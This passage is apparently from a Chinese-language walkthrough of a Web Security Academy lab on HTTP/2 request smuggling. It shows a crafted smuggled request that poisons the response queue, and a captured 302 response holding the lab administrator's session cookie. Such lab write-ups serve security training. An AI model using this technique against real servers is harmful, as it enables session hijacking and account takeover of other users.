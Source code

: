 ![img](assets/1706773318-7b784225e3209c6c79f52e806ad78c54.png)

Step 3：在Burp Repeater中构造以下请求将一个完整的请求走私到后端服务器，需要注意的是这两个请求中的路径都指向一个不存在的路径，这意味着请求将总是得到404响应，一旦我们成功毒化了响应队列，那么此时便更容易识别到成功捕获的其他用户的响应(非404响应)

```c
POST / HTTP/2
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
Transfer-Encoding: chunked
0
GET /x HTTP/1.1
Host: 0a7200bf0465414380e68aa700240081.web-security-academy.net
```

![img](assets/1706773318-303f5fce3a8f28b2baf473d0444420fe.png)

随后我们会捕获到包含管理员新的登录后会话cookie的302响应

```c
HTTP/2 302 Found
Location: /my-account?id=administrator
Set-Cookie: session=hTi7sNuudeR99YHcsm3l3xa3zKDAWqEB; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![img](assets/1706773318-6cfe53d31b2ef6210574f7bf85dedb02.png)
